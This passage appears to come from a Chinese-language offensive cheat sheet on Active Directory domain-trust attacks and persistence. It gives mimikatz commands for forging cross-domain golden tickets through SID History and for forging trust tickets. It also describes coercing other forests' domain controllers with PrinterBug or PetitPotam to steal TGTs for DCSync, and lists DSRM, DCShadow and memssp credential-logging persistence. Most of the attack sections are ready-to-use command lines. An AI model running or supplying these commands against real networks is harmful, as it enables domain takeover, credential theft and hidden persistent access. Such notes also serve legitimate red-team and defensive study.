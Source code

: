 ## 域信任关系

### 子域攻击父域 - SID History版跨域黄金票据

```
Get-NetGroup -Domain <domain> -GroupName "Enterprise Admins" -FullData|select objectsid

mimikatz lsadump::trust

kerberos::golden /user:Administrator /krbtgt:<HASH_KRBTGT> /domain:<domain> /sid:<user_sid> /sids:<RootDomainSID-519> /ptt
```

### 利用域信任密钥获取目标域的权限 - 信任票据

```
"lsadump::trust /patch"
"lsadump::lsa /patch"

"kerberos::golden /user:Administrator /domain:<domain> /sid:  
<domain_SID> /rc4:<trust_key> /service:krbtgt /target:<target_domain> /ticket:
<golden_ticket_path>"
```

### 攻击其它林

```
利用ptintbug或petipotam漏洞使其它林的DC主动连接到本林的一台无约束委派主机，同时抓取发送过来的TGT，然后即可将它用于dcsync攻击
```

## 活动目录持久性技巧

https://adsecurity.org/?p=1929 DS恢复模式密码维护 DSRM密码同步

> Windows Server 2008 需要安装KB961320补丁才支持DSRM密码同步，Windows Server 2003不支持DSRM密码同步。KB961320:https://support.microsoft.com/en-us/help/961320/a-feature-is-available-for-windows-server-2008-that-lets-you-synchroni,可参考：[巧用DSRM密码同步将域控权限持久化](http://drops.xmd5.com/static/drops/tips-9297.html)

[DCshadow](https://www.dcshadow.com/)

##### Security Support Provider

简单的理解为SSP就是一个DLL，用来实现身份认证

```
privilege::debug
misc::memssp
```

这样就不需要重启`c:/windows/system32`可看到新生成的文件kiwissp.log

##### [SID History](https://adsecurity.org/?p=1772)

SID历史记录允许另一个帐户的访问被有效地克隆到另一个帐户

